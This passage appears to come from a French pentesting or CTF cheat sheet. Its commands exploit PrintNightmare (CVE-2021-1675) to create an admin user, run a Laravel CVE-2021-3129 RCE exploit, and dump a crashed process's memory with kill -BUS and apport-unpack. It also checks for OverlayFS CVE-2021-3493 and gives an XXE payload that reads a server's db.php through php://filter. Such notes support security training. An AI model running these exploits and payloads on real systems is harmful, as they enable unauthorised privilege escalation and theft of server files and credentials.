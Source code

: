 ```powershell
Import-Module .\CVE-2021-1675.ps1
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted -Force
Invoke-Nightmare -NewUser "<User>" -NewPassword "<password>"
```
---
Laravelv8 (CVE-2021-3129), après avoir fait un port forwarding SSH:

```bash
./exploit.py <localhost:port> Monolog/RCE1 "<cmd>"
```
---
Faire crash un programme (si valgrind est dans le répertoire = indice) :

```bash
<lancer le programme>
<mettre le chemin que vous voulez voir>
Ctrl+Z -> background
ps -> déterminer le PID du processus
kill -BUS <PID>
fg
apparaitre -> bus error (core dumped)
apport-unpack <chemin de vos crash> <chemin pour les extraires>
strings du CoreDump
```
---
OverlayFS *CVE-2021-3493* :
```bash
cat /etc/os-release
```
Permet de voir la version de l'os.
Les versions affactées sont : *Ubuntu 20.10,Ubuntu 20.04 LTS,Ubuntu 18.04 LTS,Ubuntu 16.04 LTS, Ubuntu 14.04 ESM*
Ensuite aller voir sur ce site pour la PoC : [CVE-2021-3493](https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/)
---

## 15) Foothold

XXE :

```bash
<?xml
version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "php://filter/read=convert.base64-
encode/resource=/var/www/html/db.php"> ]>
<bugreport>
<title>test</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>&file;</reward>
</bugreport>
```
Pour transformer en format url b64 :
```bash
cat <fichier> | base64 -w 0
```
---
